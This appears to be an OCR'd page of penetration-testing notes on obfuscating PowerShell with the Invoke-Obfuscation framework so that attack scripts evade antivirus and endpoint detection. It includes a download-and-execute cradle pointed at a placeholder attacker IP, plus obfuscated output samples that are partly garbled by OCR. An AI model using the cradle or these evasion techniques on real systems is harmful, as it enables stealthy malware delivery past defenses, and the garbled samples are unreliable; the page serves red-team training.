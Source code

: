 ### PowerShell Code Obfuscation (with Invoke-Obfuscation) - Theory

**Obfuscation** refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.
As a penetration tester, you will find yourself working with PowerShell code frequently. Most AV solutions will immediately flag malicious PowerShell code, as a result, you must be able to obfuscate/encode your PowerShell code and scripts in order to avoid detection.

As endpoint security solutions catch up with attacker methods and implement numerous heuristics and detection signatures to catch PowerShell commands as they're being executed, we turn to obfuscation as a layer in helping us evade those defenses.

#### Invoke-Obfuscation

[**Invoke-Obfuscation**](https://github.com/danielbohannon/Invoke-Obfuscation) is one of the more well-known frameworks we can use for this purpose.
Once we download and extract the "Invoke-Obfuscation" package into our modules directory (i.e. `C:\Users\<Username>\Documents\Windows PowerShell\Modules`) into a folder called "Invoke-Obfuscation", we should be able to import it into our current PowerShell session: `Import-Module Invoke-Obfuscation` and run it with `Invoke-Obfuscation`.

We have several different options we can use to obfuscate our PowerShell commands:
- TOKEN - Obfuscate PowerShell command Tokens
- AST - Obfuscate PowerShell Ast nodes (PowerShell 3.0 and greater)
- STRING - Obfuscate entire command as a String
- ENCODING - Obfuscate entire command via Encoding
- COMPRESS - Convert entire command to one-liner and Compress
- LAUNCHER - Obfuscate command args w/Launcher techniques (run once at end).

First, in order to tell what we'd like to obfuscate exactly, we first need to use the `SET SCRIPTBLOCK` command.
Example:
```
SET SCRIPTBLOCK iex (New-Object Net.Webclient).DownloadString("http://<AttackerIP>/Get-ProcessPaths.ps1")
```

*STRING method*.

Example:
`STRING`, `REVERSE`: to first concatenate our PowerShell command line and then reverse the entire string.
Example output:
```
$Lqi70 ="NoisseRpXE-EKOvnI )43] rahc [ f- ) ') ' + ' } 0 ' + '{1'+'sp.sh'+'taPsse'+'corp- '+'x'+'ei' (("; teG/26.31.'+' 8' + '61 '+' .291/'+'/: '+'p'+'tt'+'h}0{('+'g'+'n'+'irtsdao'+'lnwo'+' d'+'.) '+'tneilcb'+'e'+'W.teN'+' tce'+'jb0-weN'+'('+' [STRING]: JOIN( '' ,$Lqi70[ -1.. -($Lqi70.1ENGTH ) ]) | IeX
```

*ENCODING* method.

Example:
`RESET`, `ENCODING`, `SPECIAL CHARACTERS`: this return a heavily obfuscated string.
Example output:
```
+ {(*~}${-}${)} }$+{[)}${*}${x}${~*)}$ $ + {*}${-}${~*)}$+ +{+$!}${[)}${x}${~*)}$+{* }${* }${~*)}$ + {+$!}${* }${~*)}$__+{x}${[)}${x}${~*)}$+{+}${+$·}${~x)}$+{(}${ -}${~*)}$ +{(}${*}${*}${~*)}$ + |-}$ ]. ({}® )$„ + [ {[)}$]„(_{}@__ )$.+_[_ „{0}${*}$.]. ( { }©)$. +[„{-}${*}$._].({}® )$.) ̄.. @{\___}___)"[${+}]___+"$(@{___})"["${*}"+"${ *}" ]+"$( @{})"[___"${``}"+__"${(]}"]+"$?"[${*}____] + "]" _;${;}= '}= ++ ${;} ; ${)}=++${;} ;${+}= ++ ${;}; ${;$+}=++ ${;} ; ${ *}=++${;} \; ${(*~} ="[" + "$( ${;}___;___${``. ${;} =+$()__;${(]}=_${;}___;___${*}=__++${;}___;${``} = ++${;};${ $}__=++${;}___;___${-} =++ }___]+___"$? ̈[${*}]+"$(@{})"[___${_$} _])_;_${;}= "$( @{}___)"[___"${*}"+"${-}"]+__"$(__ @{___})"[${-}]+"${;}"[
```
